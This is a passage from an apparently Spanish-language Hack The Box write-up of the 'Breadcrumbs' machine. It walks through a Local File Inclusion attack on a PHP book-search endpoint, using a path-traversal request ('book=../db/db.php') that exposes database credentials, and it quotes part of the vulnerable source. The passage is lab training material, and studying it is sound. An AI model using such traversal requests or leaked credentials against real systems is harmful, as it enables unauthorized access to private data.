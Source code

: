 * [Inclusión de archivos](https://www.cyberseguridad.net/inclusion-de-ficheros-remotos-rfi-remote-file-inclusion-ataques-informaticos-ii).
* [Como funciona un **Local File Inclusion**](https://www.welivesecurity.com/la-es/2015/01/12/como-funciona-vulnerabilidad-local-file-inclusion/).

La petición normal sería esta:

![316burp_searchDescBook_normal](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/breadcrumbs/316burp_searchDescBook_normal.png)

Ahora modificando el contenido podríamos probar a encontrar inicialmente el archivo `bookController.php` para ver que tan lejos estamos del directorio `/htdocs` y centrarnos...

> El propio output al poner una ruta equivocada nos indica donde estamos, **pero no me acordaba**.

Probando `../includes...` tenemos el output del archivo:

![316burp_searchDescBook_LFI_bookC](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/breadcrumbs/316burp_searchDescBook_LFI_bookC.png)

Un poco horrible el output :P, pero bueno, al menos confirmamos una inclusión local de archivos (**LFI**).

Viendo su contenido me acordé del archivo `db.php`, si vemos su contenido y lo intentamos hacer más bonito tenemos:

```php
book=../db/db.php&method=1
```

```php
<?php

$host = "localhost";
$port=3306;
$user="bread";
$password="jUli901";
$dbname="bread";

$con = new mysqli($host, $user, $password, $dbname, $port) or die ('Could not connect to the database server' . mysqli_connect_error());

?>
```

Nice, tenemos las credenciales de la base de datos de lo que parece ser el usuario `juliette` (si dice "bread" pero la password dice otra cosa :P)... Intentando rehusar esas contraseñas contra el servicio `SSH` y `mysql` no logramos nada. Sigamos jugando con el `LFI`...

**(Les dejo el contenido del archivo vulnerable para que le echen un ojo al problema:**

```php
<?php

if($_SERVER['REQUEST_METHOD'] == "POST"){
    $out = "";
    require '../db/db.php';
    $title = "";
    $author = "";
    if($_POST['method'] == 0){
        if($_POST['title'] != ""){
            $title = "%".$_POST['title']."%";
        }
        if($_POST['author'] != ""){
            $author = "%".$_POST['author']."%";
        }
        $query = "SELECT * FROM books WHERE title LIKE ? OR author LIKE ?";
        $stmt = $con->prepare($query);
        $stmt->bind_param('ss', $title, $author);
        $stmt->execute();
        $res = $stmt->get_result();
```